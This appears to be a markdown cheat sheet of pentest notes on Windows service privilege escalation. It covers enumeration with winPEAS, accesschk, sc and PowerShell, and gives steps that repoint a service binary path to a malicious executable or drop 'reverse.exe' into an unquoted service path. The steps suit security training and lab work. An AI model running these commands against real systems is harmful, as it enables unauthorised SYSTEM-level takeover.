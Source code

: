 #windows #privesc #services #cmd #registry

## Introduction 

Services are simply programs that run in the background  , accepting input or performing regular tasks.

If services run with SYSTEM privileges and are misconfigured , exploiting theme may lead to command execution with SYSTEM privileges as well.


# Services Commands

##### Query the configuration of a service :

```cmd
sc.exe qc <name>
```

```powershell 
Get-WmiObject win32_service | Where-Object { $_.Name -eq "<name>" }
```

#### Query the current status of a service :

```cmd
sc.exe query <name>
```

```powershell
Get-Service -Name <name>
```

#### Modify a configuration option of a service :

```cmd
sc.exe config <name> <option>= <value>
```

```powershell
Get-Service -Name <name> -StartupType <Manual|Automatic|Disabled>
```

#### Start / Stop a service :

```cmd
net start/stop <name>
```

```powershell
Start-Service -Name <name>
Stop-Service -Name <name>
```









#  1- Insecure Service Properties

If our user has permission to change the configuration of a service which runs with SYSTEM privileges , we can change the executable service and use to one of our own.

<span class="red-text">Potential Rabbit Hole :</span>
If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges 

```powershell
.\winPEASany.exe servicesinfo
```

##### Exemple of winPEAS out :

```bash
[+] Interesting Services -non Microsoft-(T1007)
    daclsvc(DACL Service)["C:\Program Files\DACL Service\daclservice.exe"] -         Manual - Stopped
    YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles
```

We can see in Modifiable Services also in LinPEAS out :

```bash
[+] Modifiable Services(T1007)
    LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
    daclsvc: WriteData/CreateFiles
```


##  I - Verify permissions with accesscheck 

```cmd
.\accesschk.exe /accepteula -uwcqv <user> <ServiceName>
```

Verify with cmd:
```cmd
sc sdshow <Nom_du_Service>
```


Verify with Powershell : 
```powershell
Get-Service -Name <Nom_du_Service>
(Get-Acl "HKLM:\SYSTEM\CurrentControlSet\Services\<Nom_du_Service>").Access

```

#### Exemple with DaclSvc service :
```cmd
C:\Tools>.\accesschk.exe /accepteula -uwcqv user daclsvc
.\accesschk.exe /accepteula -uwcqv user daclsvc
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```


Query the service :
```cmd
sc qc daclsvc

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem


```

##  II - Query the service 

```cmd
sc qc <serviceName>
```

```powershell
Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\<SerName>" -Name ImagePath
```

Verify <span class="red-text">START_TYPE</span> , <span class="red-text">BINARY_PATH_NAME</span> and <span class="red-text">SERVICE_START_NAME</span>

Check the current status of a service :
```cmd
sc query <ServiceName>
```

Check the <span class="red-text">STATE</span>


## III - Change Binary Path 


```cmd
sc config <ServiceName> binpath= "\"C:\folder\malicous.exe\""
```

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\<Nom_du_Service>" -Name ImagePath -Value "C:\Nouveau\Chemin\executable.exe"
```



Now Start the service 

```cmd
net start <ServiceName>
```
```powershell
Start-Service -Name <ServiceName>
```


---
--- 


#  2 - Unquoted Service Path
 
Executables in Windows can be run without using their extension ( e.g. "whoami.exe" can be run by just typing "whoami" ).

Some executables take arguments, separated by spaces , e.g someprog.exe arg1 arg2 arg3 
This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Command Powershell to find unquoted paths :

```powershell
Get-WmiObject win32_service | Where-Object { $_.PathName -like "* *" -and $_.PathName -notlike '"*"' } | Select-Object Name, PathName

```

##### Exemples of WinPeas Out :


```bash

unquotedsvc(Unquoted Path Service)[C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe] - Manual - Stopped - ==No quotes and Space detected==

```





## I - Verify permissions with accesschk

```cmd
.\accesschk.exe /accepteula -ucqv <user> <ServiceName>
```

## II - Verify ACL on each directory on the Bin Path 


With accesschk 
```cmd
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq "C:\Program File\"
.\accesschk.exe /accepteula -uwdq "C:\Program File\Unquoted Path Serice\"
```

With icacls  
```cmd
icacls "C:\Program Files\Unquoted Path Service"
```

With PowerShell 
```powershell
(Get-Acl "C:\Program Files\Unquoted Path Service").Access
```

## III - Copy Payload to the directory 

```cmd
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

And Run the service

--- 
--- 

#  3 - Weak Registry Permissions

The Windows registry store entries for each services. 
Since registry entries can have ACLs, if the ACL is misconfigured , it may be possible to modify a service's configuration even if we cannot modify the service directly.

Each service's configuration is in the registry :

```cmd
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<Service_Name>
```

##### Exemple of WinPeas out 

```bash
[+] Looking if you can modify any service registry()
[?] Check if you can modify the registry of a service 
HKLM\system\currentcontrolset\services\regsvc (Interactive [TakeOwnership])
```











## I - Verify permissions with Powershell or accesscheck 


```cmd
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```


```powershell
powershell -exec bypass

Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List

```

With Powershell the output are SDDL ( See on Internet to read it )
#  4 - Insecure Service Executables
#  5 - DLL Hijacking